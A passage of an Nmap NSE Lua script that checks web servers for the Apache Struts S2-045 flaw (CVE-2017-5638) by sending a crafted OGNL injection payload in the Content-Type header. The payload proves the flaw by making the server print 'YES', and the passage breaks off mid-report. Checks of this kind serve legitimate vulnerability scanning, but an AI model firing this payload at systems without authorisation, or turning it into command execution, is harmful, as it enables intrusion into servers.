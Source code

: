 ```lua
* http://www.cnvd.org.cn/flaw/show/CNVD-2017-02474
]]

-- @usage
-- nmap -sV -p- --script struts2-s2-045 <target>
-- nmap -sV -p- --script struts2-s2-045 --script-args uri=/aa.action <target>
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | struts:
-- |   VULNERABLE:
-- |   Struts S2-045
-- |     State: VULNERABLE (Exploitable)
-- |     IDs:  CVE:CVE-2017-5638
-- |       The Jakarta Multipart parser in Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 mishandles file upload, which allows remote attackers to execute arbitrary commands via a #cmd= string in a crafted Content-Type HTTP header, as exploited in the wild in March 2017.
-- |
-- |     Disclosure date: 2017-03-07
-- |     References:
-- |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
-- |       http://www.cnvd.org.cn/flaw/show/CNVD-2017-02474
-- |_      http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
--
---
author = {"email:payloads@aliyun.com bLog:payloads.online company:leafsec.com"}
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
-- categories = {"exploit","vuln","intrusive"}
-- portrule = shortport.http
portrule = function(host,port)
    -- return port.protocol == "tcp" and port.number == 8899 and port.state == "open"
    return true
end
function generate_http_req(host, port, uri, useragent,cookie,referer)
  local payload = '%{(#nikenb=\'multipart/form-data\').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println(\'YES\')).(#o.close())}'
  local options = {header={}}
  options["no_cache"] = true
  options["header"]["User-Agent"] = useragent or 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0'
  options["header"]["Referer"] = referer or 'NULL'
  options["cookies"] = cookie or 'NULL'
  options["header"]["Content-Type"] = payload
  stdnse.debug1("Start scanning the vulnerability")
  local req = http.get(host, port, uri, options)
  return req
end
action = function(host, port)
  local useragent = stdnse.get_script_args(SCRIPT_NAME..".useragent") or nil
  local cookie = stdnse.get_script_args(SCRIPT_NAME..".cookie") or nil
  local referer = stdnse.get_script_args(SCRIPT_NAME..".referer") or nil
  local uri = stdnse.get_script_args(SCRIPT_NAME..".uri") or '/'
  local req = generate_http_req(host, port, uri,useragent,cookie,referer)
  if string.match(req.body, 'YES') then
    local vuln_report = vulns.Report:new(SCRIPT_NAME, host, port)
    local vuln = {
      title = 'Struts S2-045',
      state = vulns.STATE.VULN,
      description = [[
The Jakarta Multipart parser in Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 mishandles file upload, which allows remote attackers to execute arbitrary commands via a #cmd= string in a crafted Content-Type HTTP header, as exploited in the wild in March 2017.
```